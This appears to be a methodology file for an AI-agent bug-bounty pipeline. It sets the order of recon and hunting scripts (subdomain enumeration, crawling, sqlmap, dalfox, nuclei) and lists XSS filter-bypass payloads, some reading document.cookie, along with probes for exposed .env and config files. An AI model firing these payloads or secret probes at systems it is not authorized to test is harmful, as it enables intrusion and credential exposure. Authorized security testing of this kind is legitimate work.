

# Recon Pipeline — Script Methodology

This document defines the **order and context** for running recon scripts.
Agents must follow this pipeline; each phase depends on outputs from the previous.

---

## How Dristi Pieces Fit Together



**How an agent uses all four:**

1. **`prompts/`** — Agent reads the WSTG checklist for the current phase (e.g., `input-validation.md` lists WSTG-INPV-01 for reflected XSS).
2. **`skills/`** — Agent loads the relevant hunt skill (e.g., `hunt-xss/SKILL.md` for payloads, detection patterns, bypass techniques).
3. **`scripts/tools/`** — Agent runs the automation scripts (e.g., `param_extract.sh` → `gf_xss.txt` → fire payloads from `xss_payloads.txt`).
4. **`knowledge/wstg/`** — Agent references the full OWASP WSTG guide for in-depth technique validation.

| Layer | Directory | Role | Content |
|-------|-----------|------|---------|
| Reference | `knowledge/wstg/` | Full OWASP WSTG methodology | 96 test cases across 12 categories |
| Checklist | `prompts/` | Which WSTG tests to run | 13 brief test lists (WSTG-INFO-01, WSTG-INPV-01, etc.) |
| Tactical | `skills/` | How to execute each hunt | 69+ agent workflows with commands, payloads, bypass chains |
| Automation | `scripts/tools/` | Run the recon pipeline | 9 scripts + payloads file + orchestrator |

---

## Phase 0: Prerequisites

| Script | Purpose | When | Input → Output |
|--------|---------|------|----------------|
| `dns_bruteforce.sh` | DNS brute-force via puredns | Subdomain discovery | `domain` → `runtime/engagements/${ENGAGEMENT_ID:-rea-group-bb-001}/recon/<domain>/dns/` |
| `subdomain_enum.sh` | Passive subdomain enum (subfinder + assetfinder + findomain → httpx) | Always run first | `domain` → `subdomains/all_subdomains.txt`, `live_domains.txt`, `live_urls.txt` |
| `zone_transfer.sh` | AXFR check against NS servers | Subdomain discovery | `domain` → zone transfer results |
| `github_dork.sh` | GitHub code search via `gh` | Subdomain discovery | `domain` → dork results (skipped if `gh` not logged in) |

**Order:** `dns_bruteforce.sh` → `subdomain_enum.sh` → `zone_transfer.sh` → `github_dork.sh`

---

## Phase 1: Web Crawling & Live Collection

| Script | Purpose | When | Input → Output |
|--------|---------|------|----------------|
| `web_crawl.sh` | Multi-engine crawl (hakrawler + katana + waymore + gau → merge → filter) | After subdomain enum | `live_urls.txt` → `crawl/crawledurls.txt`, `alive-domains.txt` |
| `dir_bruteforce.sh` | ffuf directory brute + robots/sitemap | After crawl | `alive-domains.txt` → `dir/` results |
| `vhost_fuzz.sh` | ffuf vhost fuzzing with baseline Content-Length | After crawl | `alive-domains.txt` → `vhost/` results |

**Order:** `web_crawl.sh` → `dir_bruteforce.sh` → `vhost_fuzz.sh`

---

## Phase 2: Parameter & Vulnerability Filtering

| Script | Purpose | When | Input → Output |
|--------|---------|------|----------------|
| `param_extract.sh` | Extract URLs with `?` params + filter via gf patterns | After crawl | `crawledurls.txt` → `params/paramurls.txt`, `gf_*.txt` |

**Vulnerability classes filtered by gf patterns:**

| Pattern | Target | File | When to use |
|---------|--------|------|-------------|
| `xss` | Reflected/DOM XSS | `gf_xss.txt` | Test params reflecting in responses |
| `sqli` | SQL injection | `gf_sqli.txt` | Test params with DB-backed endpoints |
| `ssrf` | Server-side request forgery | `gf_ssrf.txt` | Test params that fetch URLs (`url=`, `path=`) |
| `ssti` | Server-side template injection | `gf_ssti.txt` | Test params fed into templates |
| `lfi` | Local file inclusion | `gf_lfi.txt` | Test params reading files (`file=`, `page=`) |
| `redirect` | Open redirect | `gf_redirect.txt` | Test redirect params (`redirect=`, `next=`) |
| `idor` | Insecure direct object reference | `gf_idor.txt` | Test object ID params (`id=`, `user_id=`) |
| `rce` | Remote code execution | `gf_rce.txt` | Test params passed to `exec()`, `system()` |
| `rfi` | Remote file inclusion | `gf_rfi.txt` | Test params including remote files |
| `cmdi` | Command injection | `gf_cmdi.txt` | Test params in shell commands |
| `xxe` | XML external entity | `gf_xxe.txt` | Test XML-parsing endpoints |
| `debug_logic` | Debug endpoints | `gf_debug_logic.txt` | Test for debug/info leakage |
| `interestingparams` | Misc interesting params | `gf_interestingparams.txt` | Review manually |

---

## Phase 3: Secrets & Info Disclosure Scanning

| Script | Purpose | When | Input → Output |
|--------|---------|------|----------------|
| `cariddi_scan.sh` | Two-pass cariddi scan (intensive + high-value paths) | After crawl | `alive-domains.txt` → `cariddi/cariddi.txt`, `cariddi.html` |

High-value paths probed: `.env`, `.git/config`, `config.json`, `wp-config.php`, `backup.sql`, `error.log`, `laravel.log`, etc.

---

## Phase 4: Automated Hunting

| Script | Purpose | Depends on | Input → Output |
|--------|---------|-----------|----------------|
| `auto_xss.sh` | dalfox + manual payload test | `param_extract.sh` | `gf_xss.txt` → `xss/dalfox_results.txt`, `manual_xss_found.txt` |
| `auto_sqli.sh` | sqlmap batch scan | `param_extract.sh` | `gf_sqli.txt` → `sqli/sqlmap_output/` |
| `auto_nuclei.sh` | nuclei templates (c/high + med + tech) | `web_crawl.sh` | `https-subs.txt` → `nuclei/` |
| `auto_secrets.sh` | validate cariddi findings via curl | `cariddi_scan.sh` | `cariddi.txt` → `secrets/accessible.txt`, `high_value_confirmed.txt` |

## Phase 5: Full Automation

| Command | Purpose |
|---------|---------|
| `./tools/auto_recon.sh <domain>` | Runs recon phases 0–3 in sequence |
| `./tools/auto_hunt.sh <domain>` | Runs recon + hunt phases 0–7 in sequence |
| `./tools/auto_recon.sh <domain> --skip dns,github` | Skip slow/optional steps |
| `./tools/auto_hunt.sh <domain> --skip xss,nuclei` | Skip specific hunt phases |

---

## XSS Payload Testing

When testing endpoints from `gf_xss.txt`, use payloads from `scripts/xss_payloads.txt`.

**Payloads cover these bypass techniques:**

| Technique | Payload |
|-----------|---------|
| URL-encoded script | `%3Cscript%3Ealert(1)%3C/script%3E` |
| Unicode-escaped | `\u003cscript\u003ealert(1)\u003c/script\u003e` |
| HTML comment break | `<!--><script>alert(1)</script>` |
| Case-mixed tag | `<ScRiPt>alert(1)</sCrIpT>` |
| Double URL-encoded img | `%3Cimg%20src=x%20onerror=alert(%22XSS%22)%3E` |
| JS template literal | `${alert(1)}`, `${alert\`1\`}`, `{alert\`1\`}` |
| Event handler attributes | `"onmouseover=alert(1)//`, `"autofocus/onfocus=alert(1)//` |
| Nested template bypass | `` `"`>'>`${`{${parent`alert`}``}`} ``, `rix4uni\`${alert(1)}\`` |
| Dual event handler | `">` |
| Null-byte attr injection | `'<00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/` |
| Tag soup RXSS | `">>>>>><marquee>RXSS</marquee></head><abc></script><script>alert(document.cookie)</script><meta` |
| content-visibility XSS | `<form><input value=alert(1)></form><xss oncontentvisibilityautostatechange=Function?.(document.forms[0].elements[0].value)() popover id=x style=display:block;content-visibility:auto>XSS</xss>` |
| Paren-free confirm | `<sCriPt x>(((confirm)))``</scRipt x>` |
| SVG tags | `<svg>...<script>alert('XSS')</script></svg>` |
| SVG onload | `<svg onload=alert('XSS')>` |
| SVG animate | `<svg><animate onbegin=alert('XSS') ...>` |
| SVG image onerror | `<svg><image href=x onerror=alert('XSS')></svg>` |
| SVG foreignObject | `<svg><foreignObject><body><script>alert('XSS')</script></body></foreignObject></svg>` |

**Testing workflow:**

1. Take each URL from `gf_xss.txt`
2. Append/replace each parameter value with payloads from `xss_payloads.txt`
3. Check if payload renders unescaped in response
4. Watch for: reflected payload in `<script>`, ``, `<svg>`, event handlers, or template literals

---

## Quick Reference Table

| Script | Depends On | Produces |
|--------|-----------|----------|
| `dns_bruteforce.sh` | domain | `dns/resolved.txt` |
| `subdomain_enum.sh` | domain | `subdomains/all_subdomains.txt`, `live_domains.txt`, `live_urls.txt` |
| `web_crawl.sh` | `live_urls.txt` | `crawl/https-subs.txt` (full https:// URLs), `alive-domains.txt` (domains only), `crawledurls.txt` (filtered crawled URLs) |
| `param_extract.sh` | `crawledurls.txt` | `params/paramurls.txt`, `gf_*.txt` |
| `cariddi_scan.sh` | `alive-domains.txt` | `cariddi/cariddi.txt`, `cariddi.html` |
| `dir_bruteforce.sh` | `alive-domains.txt`, wordlists | `dir/` output |
| `vhost_fuzz.sh` | `alive-domains.txt` | `vhost/` output |
| `zone_transfer.sh` | domain | zone transfer results |
| `github_dork.sh` | domain | dork results |
| `auto_xss.sh` | `gf_xss.txt` | `xss/` dalfox + manual XSS findings |
| `auto_sqli.sh` | `gf_sqli.txt` | `sqli/` sqlmap output |
| `auto_nuclei.sh` | `https-subs.txt` | `nuclei/` template findings |
| `auto_secrets.sh` | `cariddi.txt` | `secrets/` validated findings |
| `auto_recon.sh` | domain | runs all recon scripts |
| `auto_hunt.sh` | domain | runs all recon + hunt scripts |

## Output Structure

```
runtime/engagements/${ENGAGEMENT_ID:-rea-group-bb-001}/recon/<domain>/
├── subdomains/
│   ├── all_subdomains.txt   # all discovered subs
│   ├── live_domains.txt     # httpx-probed (domains only)
│   └── live_urls.txt        # httpx-probed (full URLs)
├── crawl/
│   ├── https-subs.txt       # live https:// URLs — each line: https://sub.domain.com (from httpx -probe)
│   ├── alive-domains.txt    # unique domains only — each line: sub.domain.com (extracted from https-subs)
│   └── crawledurls.txt      # filtered live URLs from crawlers (hakrawler+katana+waymore+gau → filter.sh)
├── params/
│   ├── paramurls.txt        # URLs with parameters
│   └── gf_*.txt             # gf-pattern-filtered candidates
├── cariddi/
│   ├── cariddi.txt          # findings text
│   └── cariddi.html         # findings HTML
├── dns/                     # dns_bruteforce.sh output
├── dir/                     # dir_bruteforce.sh output
├── vhost/                   # vhost_fuzz.sh output
├── dorks/                   # github_dork.sh output
├── xss/                     # auto_xss.sh (dalfox + manual)
├── sqli/                    # auto_sqli.sh (sqlmap output)
├── nuclei/                  # auto_nuclei.sh (template findings)
└── secrets/                 # auto_secrets.sh (validated cariddi hits)
```
